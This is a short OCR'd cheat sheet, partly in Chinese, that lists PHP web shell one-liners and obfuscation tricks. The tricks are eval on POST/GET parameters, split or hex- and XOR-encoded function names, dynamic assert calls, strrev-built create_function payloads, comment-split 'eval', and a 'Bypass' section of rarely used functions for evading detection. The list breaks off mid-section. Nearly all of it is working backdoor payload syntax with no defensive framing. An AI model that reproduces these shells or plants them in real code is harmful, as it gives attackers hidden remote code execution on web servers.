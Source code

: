 - - GLOBALS

    `eval($GLOBALS['_POST']['op']);`

- - `$_FILE`

    `eval($_FILE['name']);`

- - 拆分

    `eval(${"_PO"."ST"} ['sz']);`

- - 动态函数执行

    `$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);``$a=$_GET['a'];$a($_GET['b']);`

- - create_function

    `$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();`

- preg_replace

- - 变形

    str_replace(" ", "e v a l")

- - 进制转化

    `"\x62\x61\163\x65\x36\x34\137\144\145\x63\x6f\144\145"`

- - 进制运算

    `("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");`

- - 自增运算

    `$a="a";$a++;`

- - 强制类型转换

    `$a='';$a.=[]; // Array`

- - 利用文件名

    `__FILE__`

- - 注释

    `$a="e"."v"./*-/*-*/"a"./*-*/"l";`

- - 反射

    `ReflectionFunction`

##### Bypass

- - 基于少见函数

    `mb_eregi_replace('.*',$_GET[1],'','e');`set_error_handler + trigger_error

- - 基于污染传播

    `putenv($_GET["c"]);eval(getenv('path'));`parse_strparse_urlextracttoken_get_alldefine

- - 基于少见源
